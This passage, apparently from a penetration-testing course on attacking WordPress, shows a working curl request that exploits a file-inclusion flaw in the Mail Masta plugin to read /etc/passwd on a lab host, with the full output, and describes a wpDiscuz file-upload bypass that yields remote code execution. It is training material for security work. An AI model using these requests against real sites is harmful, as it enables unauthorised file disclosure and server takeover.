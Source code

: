 &#x20; Attacking WordPress

```shell-session
root@htb[/htb]$ curl -s http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ubuntu:x:1000:1000:ubuntu:/home/ubuntu:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
mysql:x:113:119:MySQL Server,,,:/nonexistent:/bin/false
```

**Vulnerable Plugins - wpDiscuz**

[wpDiscuz](https://wpdiscuz.com/) is a WordPress plugin for enhanced commenting on page posts. At the time of writing, the plugin had over [1.6 million downloads](https://wordpress.org/plugins/wpdiscuz/advanced/) and over 90,000 active installations, making it an extremely popular plugin that we have a very good chance of encountering during an assessment. Based on the version number (7.0.4), this [exploit](https://www.exploit-db.com/exploits/49967) has a pretty good shot of getting us command execution. The crux of the vulnerability is a file upload bypass. wpDiscuz is intended only to allow image attachments. The file mime type functions could be bypassed, allowing an unauthenticated attacker to upload a malicious PHP file and gain remote code execution. More on the mime type detection functions bypass can be found [here](https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/).
